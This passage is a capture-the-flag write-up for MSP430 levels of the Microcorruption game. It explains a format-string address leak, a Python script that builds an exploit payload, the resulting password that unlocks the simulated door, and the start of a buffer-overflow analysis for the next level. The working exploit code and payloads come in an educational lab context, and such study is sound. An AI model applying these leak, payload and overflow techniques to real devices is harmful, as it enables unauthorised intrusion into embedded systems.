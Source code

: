 ```
That is, at an offset 0x362 from the start of the code.

And the interrupt-making code we want to run is: 

```
4912:  8f10           swpb	r15
4914:  024f           mov	r15, sr
4916:  32d0 0080      bis	#0x8000, sr
491a:  b012 1000      call	#0x10
```

That is, an offset 0x512 from the start of the code.  

Then, since the leaked address is always an offset of 874=0x36a from
the start of the code, we will do:

```30127f00b012{leaked - 0x36a + 0x362}{leaked - 0x36a + 0x512}```

This we can get by:

```
import sys
leaked = int(sys.argv[1],16)
call_r14 = "%04x"%(leaked - 8)
int_addr = "%04x"%(leaked + 0x1a8)
call_r14 = call_r14[2:4] + call_r14[0:2]
int_addr = int_addr[2:4] + int_addr[0:2]
print("3f407f003040" + int_addr + call_r14)
```

Thus, on an actual run, we enter the username:

```%x%x```

Which gives an output of:

```0000a726```

Then:

```
$ python vlad.py a726
3f407f003040cea81ea7
```

So we enter a password of 

```3f407f003040cea81ea7```

which unlocks the door!


## 16. Lagos

This is a relatively straightforward buffer overflow except that we
are only allowed alphanumeric instructions.

We can easily get code execution by giving an input such as:

```AAAAAAAAAAAAAAAABBBBCCCC```

and breaking on the `ret` instruction of the `login` function.  Here,
we see that the middle two Bs are the return value, so if we provide
17 bytes of padding, then the next two bytes will be the location of
execution.
```
